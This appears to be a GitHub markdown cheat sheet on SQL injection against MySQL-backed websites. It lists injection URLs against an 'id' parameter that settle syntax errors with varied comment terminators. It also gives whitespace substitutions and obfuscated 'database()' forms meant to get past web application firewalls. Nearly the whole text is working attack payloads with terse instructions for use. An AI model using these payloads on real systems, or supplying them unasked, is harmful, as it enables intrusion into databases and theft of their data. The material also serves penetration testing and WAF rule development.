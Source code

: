 ## Stabilise the error message
Whenever the website keeps showing up erros on MySQL syntax, it is required to enter queries to fix the error. This usually happens when server doesn't accept ```-- -``` inside the queries. 

```http://domain.com/index.php?id=1' order by 1)--```   
```http://domain.com/index.php?id=1' order by 1))--```  
```http://domain.com/index.php?id=1' order by 1;%00```     
```http://domain.com/index.php?id=1' order by 1));%00```   
```http://domain.com/index.php?id=1' order by 1;%60```    
```http://domain.com/index.php?id=1' order by 1%23```    
```http://domain.com/index.php?id=1' order by 1%60```    
```http://domain.com/index.php?id=1' order by 1%90```   
```http://domain.com/index.php?id=1'%23/* order by 1```  
```http://domain.com/index.php?id=1') order by 1```  
```http://domain.com/index.php?id=1' order by 1") ;%00```  
```http://domain.com/index.php?id=1' order by 1#--+```  
```http://domain.com/index.php?id=1' order by 1'))%23``` 


If MySQL Syntax Error still persists, simply try again the payloads, but this time, without ```-- -```


## Whitespace WAF-based bypass

Whenever the WAF blocks the query to include space/whitespace, you can easy replace with the following payloads:  

```
/**/
/**_**/
%23nuLL%0A
%23qa%0A%23%0A
%23foo*%2F*bar%0D%0A
+
```

For example, you can replace the whitespaces on the following payload:  
```http://domain.com/index.php?id=1' order by 1-- -```  
with  
```http://domain.com/index.php?id=1'/**/order/**/by/**/1--/**/-```  
or with  
```http://domain.com/index.php?id=1'%23nuLL%0Aorder%23nuLL%0Aby%23nuLL%0A1--%23nuLL%0A-```  
and so on...


## WAF blocks retrieving information from database()

Simply replace ```database()``` with one of the following payload:  
```database/*badd*//**/()```  
```database%23%0A(%23%0A)```
